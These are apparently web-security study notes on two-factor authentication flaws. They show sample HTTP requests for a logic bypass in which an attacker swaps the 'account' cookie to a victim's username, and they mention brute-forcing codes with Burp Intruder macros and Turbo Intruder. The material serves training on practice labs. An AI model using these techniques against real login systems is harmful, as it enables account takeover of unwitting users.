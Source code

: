 ```php
POST /login-steps/first HTTP/1.1
Host: vulnerable-website.com
...
username=carlos&password=qwerty
```

They are then assigned a cookie that relates to their account, before being taken to the second step of the login process:

```php
HTTP/1.1 200 OK
Set-Cookie: account=carlos

GET /login-steps/second HTTP/1.1
Cookie: account=carlos
```

When submitting the verification code, the request uses this cookie to determine which account the user is trying to access:

```php
POST /login-steps/second HTTP/1.1
Host: vulnerable-website.com
Cookie: account=carlos
...
verification-code=123456
```

In this case, an attacker could log in using their own credentials but then change the value of the `account` cookie to any arbitrary username when submitting the verification code.

```php
POST /login-steps/second HTTP/1.1
Host: vulnerable-website.com
Cookie: account=victim-user
...
verification-code=123456
```

[Lab: 2FA broken logic Web Security Academy](https://portswigger.net/web-security/authentication/multi-factor/lab-2fa-broken-logic)

## Brute-forcing 2FA verification codes

Some websites attempt to prevent this by automatically logging a user out if they enter a certain number of incorrect verification codes. 

This is ineffective in practice because an advanced attacker can even automate this multi-step process by [creating macros](https://portswigger.net/burp/documentation/desktop/options/sessions#macros) for Burp Intruder. The [Turbo Intruder](https://portswigger.net/bappstore/9abaa233088242e8be252cd4ff534988)
 extension can also be used for this purpose.

[Lab: 2FA bypass using a brute-force attack Web Security Academy](https://portswigger.net/web-security/authentication/multi-factor/lab-2fa-bypass-using-a-brute-force-attack)

---
